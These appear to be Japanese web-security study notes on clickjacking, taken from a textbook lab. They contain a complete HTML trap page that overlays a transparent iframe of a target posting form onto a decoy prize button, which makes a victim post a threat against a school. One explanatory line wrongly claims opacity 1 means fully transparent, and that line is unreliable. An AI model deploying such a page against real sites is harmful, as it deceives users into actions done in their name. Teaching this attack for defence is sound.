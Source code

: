 * CSRF攻撃への保険的対策
  * 登録済みのメールアドレスに処理通知メールを送信する



## 4.5.2 クリックジャッキング

ifram要素とCSSを巧妙に利用することで、透明にした攻撃対象ページと罠サイトを重ね合わせ、利用者が気づかないうちに攻撃対象サイトでのクリックを誘導する攻撃手法

クリックジャッキングでは、利用者にボタンなどをクリックさせることで「重要な処理」を実行させることはできますが、その結果の画面内容を攻撃者が知ることはできない。

### 攻撃手法と影響

攻撃対象のボタンや画面をiframに重ねる。攻撃対象のボタンや画面の透明度を100%にすることでiframeのみが表示される。（opacityを1にすると透明度100%)

```html
<html>
<head>
<meta charset="UTF-8">
<title></title>
</head>
<body>
<body style="background-color: #FFFFFF">
 <br>
<form action="" method="post">
<textarea cols="40" name="msg" style="opacity:0;"></textarea><br>
<input type="submit" value="投稿">
</form>
</body>
<div style="position: absolute; top:35; left:5; z-index:0;">クリックしてスマートフォンを当てよう</div>
<iframe id="wana" style="position: absolute; top:0; left:0; z-index:5; opacity:0.5;" width=400 height=150 frameborder="0" src="http://example.jp/45/45-010.php?intent=wasbook%E5%B0%8F%E5%AD%A6%E6%A0%A1%E3%82%92%E8%A5%B2%E6%92%83%E3%81%97%E3%81%BE%E3%81%99"></iframe>
<div style="position: absolute; top:10; left:420;">
不透明度<br>
<form name=form1>
<input type=radio name=opacity onClick="chgOpacity(0)"   >0%<br>
<input type=radio name=opacity onClick="chgOpacity(0.25)">25%<br>
<input type=radio name=opacity onClick="chgOpacity(0.5)" >50%<br>
<input type=radio name=opacity onClick="chgOpacity(0.75)">75%<br>
<input type=radio name=opacity onClick="chgOpacity(1)"   >100%<br>
</form>
</div>
<script>
var wana = document.getElementById('wana');
wana.style.opacity = "0.0";

function chgOpacity(opacity){
  var wana = document.getElementById('wana');
  wana.style.opacity = opacity;
}
</script>
</body>
</html>
```
